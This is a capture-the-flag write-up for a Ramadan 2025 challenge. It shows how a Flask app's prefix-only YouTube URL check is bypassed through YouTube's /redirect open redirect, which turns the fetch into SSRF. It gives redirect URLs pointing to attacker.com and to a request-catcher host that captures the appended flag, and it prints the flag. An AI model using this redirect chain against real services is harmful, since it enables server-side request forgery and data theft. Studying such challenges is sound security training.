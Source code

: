 ```yaml
---
title: "0day Youtube Open Redirect to SSRF"
date: "2025-03-22"
description: "0day Youtube Open Redirect Vulnerability Chall in TCP1P Special Ramadhan 2025 "
categories: [
    "Write-up"
]
tags : [
    "National",
    "TCP1P"
]
image: raaa.png
---
```


![](desc.png)

## Desclaimer
i didnt expect this is was 0day vuln lol, but the probset (problem setter) say this:

![](dim.png)

## Challenge Overview
The challenge presented a simple Flask web service with a single GET endpoint. The source code was available, and the functionality seemed straightforward: it accepted a url query parameter, validated that it was a youtube.com URL, and then made a server-side HTTP request to that URL.

```py
@app.get("/")
def home():
    url = request.args.get("url", False)
    if not url:
        return "Url not found"
    if not re.match(r"^https://youtube.com/.*$", url):
        return "url isn't youtube url"
    response = requests.get(url+"?"+FLAG)
    return response.text

```
The server would then send the contents of the fetched URL back in the response.

## Vulnerability Analysis
At first glance, the security filter appears to block non-YouTube URLs. But there's a subtle weakness: the service only checks that the URL starts with https://youtube.com/, and does not validate what the redirected URL points to.

#### Key Issue: Open Redirect on YouTube
YouTube uses a redirection system on the /redirect path, where URLs like this:
```bash
https://youtube.com/redirect?q=https://attacker.com
```
will redirect to https://attacker.com, but still pass the **regex check**.

The Flask app fetches that URL, which means it is **vulnerable to SSRF (Server-Side Request Forgery)** through this open redirect. By abusing this, an attacker can trick the server into making HTTP requests to any domain, including internal services.

## Exploitation Strategy
The `requests.get(url + "?" + FLAG)` portion appends the flag as a query string to the final destination. If the attacker can control the destination domain (via redirection), they can capture this flag.

To exploit it:
1. Setup a HTTP request logging service like webhook
2. Craft a Youtube redirect URL that points to your webhook

## PoC
```
https://youtube.com/redirect?q=https://bargas.requestcatcher.com
```

![](poc.png)

![](reqcatch.png)

Flag: `RAMADAN{open_redirection_on_youtube_is_really_handy}`
